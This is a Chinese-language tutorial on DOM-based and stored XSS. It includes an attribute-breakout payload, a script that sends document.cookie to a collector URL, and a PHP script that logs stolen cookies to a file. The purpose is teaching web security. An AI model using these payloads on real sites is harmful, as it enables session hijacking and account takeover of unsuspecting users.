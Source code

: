 **利用原理:**  
客户端JS可以访问浏览器的DOM文本对象模型是利用的前提，当确认客户端代码中有DOM型XSS漏洞时，并且能诱使(钓鱼)一名用户访问自己构造的URL，就说明可以在受害者的客户端注入恶意脚本。利用步骤和反射型很类似，但是唯一的区别就是，构造的URL参数不用发送到服务器端，可以达到绕过WAF、躲避服务端的检测效果。

**DOM型XSS漏洞演示**  
1.首先我们在输入框中随便输入一串字符。可以看到弹出一个what do you see?的提示。我们查看一下源码  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b821bc8cf5d2b462a53c4b7e3316795a1f80b208.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b821bc8cf5d2b462a53c4b7e3316795a1f80b208.png)  
右击审查元素看看  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-7bc39d66ec795145d78cff05688cf64d3817dce2.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-7bc39d66ec795145d78cff05688cf64d3817dce2.png)

上图可以看到我们输入的东西会被拼接到a这个标签的href属性中：  
`< a href='"+str+"'>what do you see?</a>`我们要做的事被做成超链接了，我们把他闭合下,构成domxss。执行我们想让它做的事`'onclick="alert('xss')">`于是在前端就变成了这个：`<a href=''onclick="alert('xss')">'>what do you see?</a>`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b9cdf0965008c14a7a15d53034e8d17caf470e4b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b9cdf0965008c14a7a15d53034e8d17caf470e4b.png)

XSS的危害
------

其实归根结底，XSS的攻击方式就是想办法“教唆”用户的浏览器去执行一些这个网页中原本不存在的前端代码。  
可问题在于尽管一个信息框突然弹出来并不怎么友好，但也不至于会造成什么真实伤害啊。的确如此，但要说明的是，这里拿信息框说事仅仅是为了举个栗子，真正的黑客攻击在XSS中除非恶作剧，不然是不会在恶意植入代码中写上alert（“say something”）的。  
**就是将其他漏洞类型与xss打配合，将危害性提高**

### 1.窃取网页浏览中的cookie值

在网页浏览中我们常常涉及到用户登录，登录完毕之后服务端会返回一个cookie值。这个cookie值相当于一个令牌，拿着这张令牌就等同于证明了你是某个用户。  
如果你的cookie值被窃取，那么攻击者很可能能够直接利用你的这张令牌不用密码就登录你的账户。如果想要通过script脚本获得当前页面的cookie值，通常会用到document.cookie。  
试想下如果像空间说说中能够写入xss攻击语句，那岂不是看了你说说的人的号你都可以登录（不过某些厂商的cookie有其他验证措施如：Http-Only保证同一cookie不能被滥用）

**利用存储型XSS实现手工盗取cookie**

**方法一：**  
Javascript脚本：

```html
<script>document.location="http://127.0.0.1/xss_test/getcookie.php?cookie="+document.cookie;</script>
```

PHP脚本：

```html
<?php
$cookie = $_GET['cookie']; //用get的方式获取cookie
$log = fopen("cookie.txt" , "w");//文件不存在则创建cookie.txt，存在则内容清0
fwrite($log,$cookie);//将$cookie的值写进$log里（$log指的是cookie.txt）
fclose($log);//关闭。如果成功关闭，则该方法返回零。如果失败，则返回 EOF。
echo "攻击成功";
?>
```
